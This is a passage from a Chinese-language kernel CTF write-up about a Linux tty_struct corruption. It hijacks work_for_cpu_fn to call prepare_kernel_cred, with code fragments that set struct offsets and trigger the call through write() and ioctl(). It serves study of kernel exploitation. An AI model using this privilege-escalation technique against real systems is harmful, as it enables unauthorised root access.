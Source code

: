    ```cpp
   		ret = write(tty, file, tty->write_buf, size);
   		if (ret <= 0)
   			break;
   		written += ret;
   		buf += ret;
   		count -= ret;
   		if (!count)
   			break;
   		ret = -ERESTARTSYS;
   		if (signal_pending(current))
   			break;
   		cond_resched();
   	}
   	if (written) {
   		tty_update_time(&file_inode(file)->i_mtime);
   		ret = written;
   	}
   out:
   	tty_write_unlock(tty);
   	return ret;
   }
   ```

   这一路上要经过一些检测和各种各样操作，一开始我使用

   ```c++
   write(tty_fd, 0, 0);
   ```

   这样的方法调用，一下子就会挂在 copy_from_user 上，此处需要提供一个正确的 buf，和一定的长度，比如

   ```cpp
   write(tty_fd, buf_a, 1);
   ```

   这样就可以调用到劫持的 work_for_cpu_fn 了。

   由于 work_for_cpu_fn 的参数由 write 调用的第一个参数决定，也就是 tty_struct 本身，那么被调函数偏移在 0x20，这个没什么问题

   ```cpp
   buf_tty[4] = prepare_kernel_cred_addr;
   ```

   这样就可以了，然后第一个参数在偏移 0x28 处，也就是

   ```cpp
   buf_tty[5] = 0;
   ```

   看似没什么问题，但是之后执行到 work_for_cpu_fn 时偏移 0x28 会莫名其妙的变成 1，导致执行 kernel_prepare_cred 时出错，估计是 tty_write 和 do_tty_write 操作中对此处的成员变量进行了操作（此成员变量是一个信号量，这里可能是为了线程同步之类的有一点改变）。

   如果用虚表做 ROP 的话不需要考虑对别的变量的修改，因为不需要考虑参数的问题，但是用 work_for_cpu_fn 来进行函数调用时就需要小心一点了，所以最后我还是根据长亭的 WP 换成了 ioctl 来触发。类似的，在调用函数指针前也先调用了 tty_ioctl，这个函数是一个较为巨大的 switch 结构，所以给予的 cmd 的值要比较小心，我尝试了一些随机数都无法达到效果，最后还是根据长亭 WP 用的 233 实现的，也就是

   ```cpp
   ioctl(tty_fd, 233, 233);
   ```
